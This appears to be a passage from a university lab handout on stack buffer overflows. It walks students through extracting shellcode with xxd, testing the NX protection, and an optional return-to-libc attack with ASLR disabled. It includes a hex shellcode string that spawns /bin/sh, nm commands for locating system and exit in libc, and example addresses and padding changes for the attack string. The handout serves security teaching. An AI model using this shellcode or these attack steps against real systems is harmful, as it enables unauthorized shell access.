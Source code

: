 ``` c
```

## Extracting the Binary ##

The command extracts the given bytes from your binary. Make sure you use the correct offset (in my case it was 0x4f4). It outputs the values in hexadecimal so we can easily read it.

	xxd -s0x4f4 -l32 -p a.out > shellcode

Make sure your `shellcode` matches:

	cat shellcode
	eb0e5f4831c0b03b4831f64831d20f05e8edffffff2f62696e2f736800ef
	bead

This shellcode is important because we are going to insert that later into the tutorial to make the victim program grant access to the shell.

## Executable Space Protection (NX) ##

As you learned in the tutorial above, code in the stack cannot be executed. This is a great countermeasure against stack overflows. Go back to the tutorial and do the section *Executable space perversion*

**Question 6** What is the behavior of the program when you enable NX?

**Question 7** List the 3 counter-measures against stack overflows that we learned in this lab

----------

# Part 4: Running without ASLR (Optional) #

*If you have extra time or want to continue playing around, go ahead and do the following section.*

Do the section *The Importance of Being Patched*. It will show you that it is possible to know the address of the stack we need to attack by using `ps`

The rest of the tutorial is fascinating, to say the least. But we need to fix the tutorial so it works on our version of Linux:

1. First, in order to get his attack to work in our lab computers you need to change the sourcecode of `victim.c`. *You need to change the size of the buffer from 64 to 128 bytes.*
2. The location of the library is `/lib64/libc.so.6`
3. The addresses of `<system>` and `<exit>` that are extracted  using `nm` are absolute (it means we don't need to add the base)

``` bash
nm -D /lib64/libc.so.6 | grep '\<exit\>'   | cut -f1 -d' '
nm -D /lib64/libc.so.6 | grep '\<system\>' | cut -f1 -d' '
```

4. You need to change the attack string: change `%0130d` to `%0256d` to compensate for the bytes we have added. My values are:

| Values           | Bytes              |
|------------------|--------------------|
| base             | 0x00007ffff7a19000 |
| gadget           |            0x22638 |
| system           | 0x00000000000423f0 |
| exit             | 0x0000000000038ea0 |
| address of array |     0x7fffffffe220 |
